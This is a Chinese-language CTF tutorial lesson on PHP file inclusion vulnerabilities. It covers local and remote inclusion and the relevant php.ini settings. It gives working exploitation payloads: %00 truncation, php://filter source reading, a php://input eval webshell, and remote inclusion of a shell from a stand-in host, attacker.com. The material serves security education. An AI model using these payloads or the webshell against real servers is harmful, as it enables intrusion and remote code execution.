




# CTF夺旗赛教程：P52：文件包含漏洞详解 🚩

在本节课中，我们将要学习CTF比赛中的一个重要考点——文件包含漏洞。我们将从漏洞原理入手，逐步分析其定义、利用方式，并通过具体的解题思路和例题演示，帮助你掌握如何识别和利用此类漏洞。

## 文件包含漏洞原理

上一节我们介绍了课程概述，本节中我们来看看文件包含漏洞的基本原理。

严格来说，文件包含漏洞是代码注入的一种。程序开发人员在编写程序时，不喜欢重复编写相同代码，通常会将需要重复使用的代码写入单个文件。当需要使用时，直接调用该文件，无需再次编写。这种调用过程被称为“包含”。

当需要通过PHP函数引入文件时，如果传入的文件名未经合理校验，从而操作了预期之外的文件，就可能导致意外的文件泄露甚至恶意代码注入。在CTF比赛中，我们可以利用此漏洞读取服务器本地的flag文件，甚至获取外部权限来查看flag文件。

## 如何判断文件包含漏洞

说完定义，我们就要分析在比赛中，如何判断某道题考察的是否为文件包含漏洞。

在PHP中，导致文件包含漏洞的最常见函数有以下4个：
*   `include`
*   `include_once`
*   `require`
*   `require_once`

这四个函数都可以包含并运行指定的文件。其中，`include`和`require`的区别在于对错误的处理上；`include_once`和`require_once`顾名思义，表示只包含一次。具体区别在此不做深入探讨。

当使用这些函数包含一个新文件时，只要文件内容符合PHP语法规范，任何扩展名的文件都可被当作PHP代码解析。这意味着，即使上传一个包含恶意代码的`.txt`或`.jpg`文件，它也会被当作PHP代码执行。

## CTF文件包含题目常见解题思路

接下来，我们讲解CTF文件包含类题目的常见解题思路。文件包含分为本地文件包含和远程文件包含。

当被包含的文件在服务器本地时，称为本地文件包含。通常通过操纵变量读取目标机上的flag文件。如果被包含的文件在第三方服务器上，则称为远程文件包含。此类题目多出现在CTF的AWD混战模式中，我们可以指定其他URL上的PHP木马直接运行，从而获取外部权限查看flag文件。

区分两者的最简单方法是查看PHP全局配置文件`php.ini`。其中有两个非常重要的配置项：`allow_url_fopen`和`allow_url_include`。只有当这两项同时开启时，才可能存在远程文件包含。

### 本地文件包含解题思路

讲完区别，我们先讲几个本地文件包含常见的解题思路。

**第一种思路是直接包含内含flag的文件。**

以下是解题思路的示例：
*   通过访问URL可以查看到`index`页面的PHP源码。
*   在`index.php`中，可以通过GET请求提交`file`参数，然后判断`web`目录下是否存在该文件名。
*   如果存在，就用`include`包含该文件；如果不存在，则执行`else`来包含`home.php`文件。
*   这段代码未对取得的参数`file`进行任何过滤。如果目标主机的flag文件在`www`目录下，就可以通过`file`参数直接指定该flag文件。
*   在代码中，相当于我们包含了这样一个文件：`include(‘flag.php%00’)`。红色部分的`%00`是一个字符串结束符，只要在最后加入`%00`，就能截断后面的`.php`，从而包含一个`flag.php`文件。

**第二种思路是利用PHP伪协议来读取代码中的flag。**

这种思路需要我们先了解PHP伪协议以及之前提到的全局配置项`allow_url_fopen`和`allow_url_include`之间的联系。

PHP伪协议是PHP支持并封装的一些协议。这里我们只涉及`file`和`php`这两种在CTF中经常使用的协议。

以下是相关协议的使用方法：
*   **`file`协议**：一种用来访问本地文件系统的协议。在CTF比赛中，可用于读取本地敏感文件或flag文件。该协议的使用不受限，即使`allow_url_include`和`allow_url_fopen`都未开启，仍可尝试用`file`协议读取本地文件。例如：`file:///C:/flag.txt`。
*   **`php`协议**：可以使用`php`协议中的`filter`参数读取网页源代码。`php://filter`同样可以在双`off`（即`allow_url_fopen`和`allow_url_include`都关闭）的情况下使用。例如：`php://filter/read=convert.base64-encode/resource=index.php`。这里的`resource`指定要筛选的数据流，`read`设定过滤器的名称。简单来说，就是读取`index.php`的内容，并将输入流进行base64编码输出。这样读取到的是一段base64编码后的内容，解码后即可看到源码。进行base64编码的原因是，如果不编码，内容会被当作PHP执行，我们就看不到源码了。

**第三种思路是通过写入PHP木马获得webshell权限，查看flag。**

这个思路涉及`php://input`参数。只要`allow_url_include`开启，无论`allow_url_fopen`是否开启，我们都可以将POST请求中的数据作为PHP代码执行。

以下是解题步骤：
1.  访问题目URL，发现直接给出了题目源码，这是一道代码审计题。
2.  代码中使用`require_once`包含了GET请求的`file`参数。
3.  注释中有两个提示信息：一是提醒读取`php.ini`，二是提示不允许进行远程文件包含。
4.  思路明确：首先按照提示读取`php.ini`获取足够信息；其次，要么绕过限制去包含远程的一句话木马，要么使用PHP伪协议直接执行代码。
5.  第一种方法需要开启`allow_url_fopen`和`allow_url_include`；第二种方法只需要开启`allow_url_include`。
6.  查看`php.ini`文件，发现`allow_url_fopen`关闭，而`allow_url_include`开启，因此可以使用`php://input`协议尝试写入木马。
7.  使用火狐的Hackbar插件POST一个简单的PHP木马文件，例如：`<?php @eval($_POST[‘cmd’]);?>`，从而生成一个`shell.php`的木马文件。
8.  上传成功后，用菜刀等工具连接木马，即可看到目标主机上的flag文件。

### 远程文件包含解题思路

最后，我们来说一下远程文件包含。一般远程文件包含会出现在CTF的混战模式中，因为混战模式下需要我们去getshell。

以下是解题示例：
1.  很明显，这段源码存在文件包含漏洞，它使用`require_once`包含了GET请求的参数`file`。
2.  访问`php.ini`文件，发现`allow_url_fopen`和`allow_url_include`都开启了，因此判断存在远程文件包含漏洞。
3.  利用方法很简单，使用`file`参数传入一个第三方服务器上的木马文件，例如：`http://attacker.com/shell.txt?`。问号后面的代码被解释成URL的query string，这也是一种截断，和`%00`的用法一样。

## 总结

本节课中，我们一起学习了CTF比赛中的文件包含漏洞。我们从漏洞的定义和原理出发，详细讲解了如何判断此类漏洞，并深入分析了本地文件包含和远程文件包含的区别及常见解题思路。通过多个例题演示，我们掌握了直接包含文件、利用PHP伪协议读取源码以及写入木马获取权限等具体方法。理解这些知识点，将帮助你在CTF比赛中更有效地应对文件包含类题目。